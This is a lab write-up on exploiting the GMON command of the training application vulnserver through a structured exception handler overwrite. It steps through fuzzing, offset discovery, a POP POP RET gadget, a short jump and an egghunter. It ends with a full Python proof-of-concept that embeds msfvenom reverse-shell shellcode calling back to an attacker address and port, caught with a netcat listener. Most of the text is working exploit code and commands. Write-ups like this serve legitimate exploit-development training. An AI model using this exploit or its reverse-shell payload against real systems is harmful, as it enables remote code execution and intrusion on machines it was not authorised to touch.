




# GMON: SEH Overwrite

-----

## Crashing the application

First thing we want to do is begin fuzzing the application. To do this, let's write a quick spike script to see if we can crash vulnserver.

```
s_readline();
s_string("GMON ");
s_string_variable(0);
```

Now let's use `generic_send_tcp` to try and crash the application.

```bash
generic_send_tcp 10.10.164.52 9999 gmon.spk 0 0
```

We successfully crashed vulnserver.



Let's look at the SEH chain to see if anything has been overwritten there.


Rather than overwriting the EIP, like in the TRUN command, the SEH handler has been overwritten.

-----

## Replicating the crash

Now that we know we have a crash, let's try to replicate the crash. When looking at wireshark, we can see our crash was at length 5008 bytes including the prefix and excluding the response.


To replicate the crash, let's use a quick Python script and round up the  crash length to an easy 5100.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.164.52"
port = 9999

prefix = b"GMON /.:/"

# From Wireshark
crash_length = 5100

payload = b"".join([
    prefix,
    b"A" * crash_length
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```



-----

## Finding the offset

Now that we know 5100 bytes will crash and overwrite the EIP, let's find where the offset is to try and overwrite the SEH addresses.

First we need to generate a cyclic string

```bash
msf-pattern_create -l 5100
```

Now let's send the cyclic string with some Python

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.164.52"
port = 9999

prefix = b"GMON /.:/"

# From Wireshark
crash_length = 5100

# msf-pattern_create -l 5100  
cyclic = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk6Gk7Gk8Gk9Gl0Gl1Gl2Gl3Gl4Gl5Gl6Gl7Gl8Gl9Gm0Gm1Gm2Gm3Gm4Gm5Gm6Gm7Gm8Gm9Gn0Gn1Gn2Gn3Gn4Gn5Gn6Gn7Gn8Gn9"

payload = b"".join([
    prefix,
    cyclic
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```



From here we can calculate the offset for the SEH handler and the next handler (nSEH). Once we find the offset for SEH address, simply subtract 4 from it to get the offset for the nSEH address.

```bash
msf-pattern_offset -l 5100 -q 45336E45
```

This gave an offset of 3519 for the SEH address. Simply subtract 4 and we will use 3515 as our offset. Let's verify this works with some Python.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.164.52"
port = 9999

prefix = b"GMON /.:/"

# From Wireshark
crash_length = 5100

# msf-pattern_offset -l 5100 -q 45336E45
# 3519 - 4
offset = 3515

nSeh = b"BBBB"
Seh = b"CCCC"

payload = b"".join([
    prefix,
    b"A" * offset,
    nSeh,
    Seh,
    b"D" * (crash_length - len(prefix) - offset - len(nSeh) - len(Seh))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```



Now that we control the SEH handler addresses, we can jump to where we need to for executing shellcode.

-----

## Locating a POP POP RET gadget

The first step in moving out of the SEH handler addresses, is to find a POP POP RET gadget. This can be done with the following mona command

```
!mona seh
```


Looking at our options, one address that seems usable is 0x625010B4.

-----

## Short jump

The next item to overwrite is the nSEH address. We can simply jump back a certain amount of bytes which we can use to then point to our shellcode. Since we have the room, let's do a relative jump back 70 bytes (enough to fit an egghunter in)

```bash
msf-nasm_shell
```


As shown, our opcode is `EBB8`. We are going to pad this with NOPs to get the full 8 bytes: `0x9090B8EB`.

-----

## Generating an egghunter

Now, let's set up an egg hunter to search for our shellcode somewhere else.

```bash
msf-egghunter -b "\x00" -e c0de -f python -v egghunter 
```

-----

## Generating shellcode

Now let's generate the shellcode and put all the pieces together.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f python -v shellcode
```

Here is the final proof of concept exploit code:

- We overflow and overwrite the SEH address with our POP POP RET gadget
- We overflow the nSEH record with a relative jump back 70 bytes
- We should now land at our egg hunter (prepended with a NOP sled)
- The egg hunter with look for "c0dec0de"
- The shellcode should execute

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.164.52"
port = 9999

prefix = b"GMON /.:/"

# From Wireshark
crash_length = 5100

# msf-pattern_offset -l 5100 -q 45336E45
# 3519 - 4
offset = 3515

# jmp $-70
nSeh = struct.pack("<I", 0x9090B8EB)

# !mona seh
Seh = struct.pack("<I", 0x625010b4)

egg = b"c0de" * 2

# msf-egghunter -b "\x00" -e c0de -f python -v egghunter 
egghunter =  b""
egghunter += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
egghunter += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x63\x30\x64\x65"
egghunter += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

# msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f python -v shellcode 
shellcode =  b""
shellcode += b"\xba\x32\xb8\xc1\x5f\xda\xc8\xd9\x74\x24\xf4"
shellcode += b"\x5f\x33\xc9\xb1\x52\x83\xef\xfc\x31\x57\x0e"
shellcode += b"\x03\x65\xb6\x23\xaa\x75\x2e\x21\x55\x85\xaf"
shellcode += b"\x46\xdf\x60\x9e\x46\xbb\xe1\xb1\x76\xcf\xa7"
shellcode += b"\x3d\xfc\x9d\x53\xb5\x70\x0a\x54\x7e\x3e\x6c"
shellcode += b"\x5b\x7f\x13\x4c\xfa\x03\x6e\x81\xdc\x3a\xa1"
shellcode += b"\xd4\x1d\x7a\xdc\x15\x4f\xd3\xaa\x88\x7f\x50"
shellcode += b"\xe6\x10\xf4\x2a\xe6\x10\xe9\xfb\x09\x30\xbc"
shellcode += b"\x70\x50\x92\x3f\x54\xe8\x9b\x27\xb9\xd5\x52"
shellcode += b"\xdc\x09\xa1\x64\x34\x40\x4a\xca\x79\x6c\xb9"
shellcode += b"\x12\xbe\x4b\x22\x61\xb6\xaf\xdf\x72\x0d\xcd"
shellcode += b"\x3b\xf6\x95\x75\xcf\xa0\x71\x87\x1c\x36\xf2"
shellcode += b"\x8b\xe9\x3c\x5c\x88\xec\x91\xd7\xb4\x65\x14"
shellcode += b"\x37\x3d\x3d\x33\x93\x65\xe5\x5a\x82\xc3\x48"
shellcode += b"\x62\xd4\xab\x35\xc6\x9f\x46\x21\x7b\xc2\x0e"
shellcode += b"\x86\xb6\xfc\xce\x80\xc1\x8f\xfc\x0f\x7a\x07"
shellcode += b"\x4d\xc7\xa4\xd0\xb2\xf2\x11\x4e\x4d\xfd\x61"
shellcode += b"\x47\x8a\xa9\x31\xff\x3b\xd2\xd9\xff\xc4\x07"
shellcode += b"\x4d\xaf\x6a\xf8\x2e\x1f\xcb\xa8\xc6\x75\xc4"
shellcode += b"\x97\xf7\x76\x0e\xb0\x92\x8d\xd9\xb5\x6b\x8b"
shellcode += b"\xc8\xa2\x69\x93\xc9\x1b\xe7\x75\x67\x4c\xa1"
shellcode += b"\x2e\x10\xf5\xe8\xa4\x81\xfa\x26\xc1\x82\x71"
shellcode += b"\xc5\x36\x4c\x72\xa0\x24\x39\x72\xff\x16\xec"
shellcode += b"\x8d\xd5\x3e\x72\x1f\xb2\xbe\xfd\x3c\x6d\xe9"
shellcode += b"\xaa\xf3\x64\x7f\x47\xad\xde\x9d\x9a\x2b\x18"
shellcode += b"\x25\x41\x88\xa7\xa4\x04\xb4\x83\xb6\xd0\x35"
shellcode += b"\x88\xe2\x8c\x63\x46\x5c\x6b\xda\x28\x36\x25"
shellcode += b"\xb1\xe2\xde\xb0\xf9\x34\x98\xbc\xd7\xc2\x44"
shellcode += b"\x0c\x8e\x92\x7b\xa1\x46\x13\x04\xdf\xf6\xdc"
shellcode += b"\xdf\x5b\x16\x3f\xf5\x91\xbf\xe6\x9c\x1b\xa2"
shellcode += b"\x18\x4b\x5f\xdb\x9a\x79\x20\x18\x82\x08\x25"
shellcode += b"\x64\x04\xe1\x57\xf5\xe1\x05\xcb\xf6\x23"

nop_sled = b"\x90" * (70 - len(egghunter))

payload = b"".join([
    prefix,
    egg,
    shellcode,
    b"A" * (offset - len(egg) - len(shellcode) - len(nop_sled) - len(egghunter)),
    nop_sled,
    egghunter,
    nSeh,
    Seh,
    b"D" * (crash_length - len(prefix) - offset - len(nSeh) - len(Seh))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Let's set up a netcat lister and hope to catch a reverse shell.

